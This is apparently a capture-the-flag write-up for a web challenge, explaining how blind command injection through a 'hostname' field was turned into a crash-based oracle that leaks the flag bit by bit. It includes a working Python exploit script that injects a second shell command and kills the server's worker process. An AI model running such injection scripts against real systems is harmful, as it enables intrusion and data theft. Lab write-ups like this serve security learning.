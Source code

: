 # web/Ping Pong: Under Maintenance
So in this challenge we see that we have a command injection vulnerability that we can exploit similarly to the one in the previous challenge. However, instead of just adding a semicolon to start a new command and then `cat`ing the flag, we can't see the output.

I then tried just using a command to put the flag text into `templates/index.html`, and putting some new code inside the `main.py` file, but neither worked because the templates weren't automatically reloaded (and the code had even lower chances of reloading if the templates didn't).

My next instinct was to do some sort of data exfiltration over the network (like sending a HTTP request to some remote server). But someone foresaw this, and outbound connections are disabled on the machine.

Then I thought, "it says that outbound connections are disabled, but it doesn't say anything about inbound connections!" My first instinct was to do some sort of reverse shell or static file server that would serve the user the flag file. But the problem is that only a certain port is forwarded for the web server, and I would have to stop the existing server to run a new server. However, stopping the server stopped the entire container that the challenge was running on (as later confirmed by eyangch). (Sadly, I spent 2 days in-contest on this flawed route.)

So I tried to look for some sort of indirect leak. I realized that even if I couldn't stop the entire web server without crashing the whole challenge, I could crash part of it to indicate a true or false state. And then, I could use that to leak the flag, bit by bit.

I knew from previous attempts that gunicorn spawned worker processes for each request, so killing the subprocess would stop the connection without making the entire server crash, which made it feasible to carry out without having to restart the server a bunch of times.

To make things easier, I created some utility functions that would crash/not crash a process depending on a boolean value. I used Python on the remote server to validate conditions to make things simpler. 
```python3
def send(command):
    try:
        r = requests.post(host, data={'hostname': 'a; ' + command})
        return False
    except requests.exceptions.ConnectionError:
        return True
    
def test(cond):
    # single quotes required in cond
    return send(r'''python3 -c "import os; flag = open('flag.txt').read(); os.popen('kill -9 $PPID') if (''' + cond + ') else 1"')
```
To leak the flag, I first had to find out the length to figure out how much to loop, which I did by just incrementing a counter value (because I assumed that the flag would be fairly short). 
```python3
def getlen(s):
    l = 0
    while not test(f"len({s}) == {l}"):
        l += 1 
    return l 

#print(getlen('flag'))
# flag length = 19
```
Then, it was just a matter of extracting bits from each character, and I had the flag!
```python3
def leakchar(c):
    n = 0
    for i in range(8):
        b = test(f"(ord({c}) & (1<<{i})) > 0")
        if b: b = 1 
        else: b = 0
        #print(b)
        n += b << i
    return chr(n)
# ...
flaglen = 19
def leakstr(s, l):
    res = ''
    for i in range(l):
        res += leakchar(f"{s}[{i}]")
        print(res)
    return res
flag = leakstr('flag', flaglen)
print(flag)
# LITCTF{c4refu1_fr}
```



